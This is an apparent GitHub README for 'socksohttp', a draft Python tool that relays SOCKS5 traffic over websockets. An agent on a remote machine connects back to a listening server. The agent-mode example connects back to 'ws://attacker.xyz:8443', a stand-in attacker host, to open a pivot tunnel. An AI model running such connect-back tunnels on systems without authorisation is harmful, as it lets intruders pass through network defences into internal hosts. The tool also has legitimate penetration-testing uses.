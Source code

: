 # socksohttp
Socks5 server over Websockets

# IMPORTANT
Project is draft, not fully tested.  
Do NOT I REPEAT: DO NOT use the master branch as it is most likely will not work! I'll set up a semi-stable version soon in a separate branch

# Prerequirements
Python>=3.6  
websockets  

# What does it do?
The same script has two modes of operation: ```server``` and ```agent```  
  
```server``` will set up a websocket listener. One or more ```agent``` will be connecting back to it.  
When an ```agent``` connects the ```server``` will open a TCP port on localhost (one per ```agent```).  
This TCP port will act like if it would be a Socks5 server, but the actual Socks5 server will be running on the ```agent```, the ```server``` only relays the incoming/outgoing traffic to and from the remote Socks 5 server.


# Help
The script can be run in two modes: ```server``` and ```agent```

## ```server``` mode params  
Command format: ```socksOhttp.py <verbosity> <mode> <listen_ip> <listen_port>```  
Example command: ```socksOhttp.py -vv server 0.0.0.0 8443```  
  
  
```-v``` is setting the verbosity, be careful as the more verbose you set the slower the connection will be, as it will write ALL incoming and outgoing traffic in hex to stdout!  
```server``` is to run the script as a server  
```0.0.0.0``` will make the server listen on all interfaces for incoming websocket agents  
```8443``` is the port the server will listen for incoming websocket agents  

## ```agent``` mode params  
Command format: ```socksOhttp.py <verbosity> <mode>  <server_url> <-p proxy_url>```  
Example command: ```socksOhttp.py -vv agent ws://attacker.xyz:8443 -p http://127.0.0.1:8080``` 

```-v``` is setting the verbosity, be careful as the more verbose you set the slower the connection will be, as it will write ALL incoming and outgoing traffic in hex to stdout!  
```agent``` is to run the script as an agent  
```ws://attacker.xyz:8443``` is the url of the server the agent should connect back to. Ovbiously replace ```attacker.xyz:8443``` to your server's address.  
```-p http://127.0.0.1:8080``` optional parameter, set it if you need to go trough a HTTP proxy  
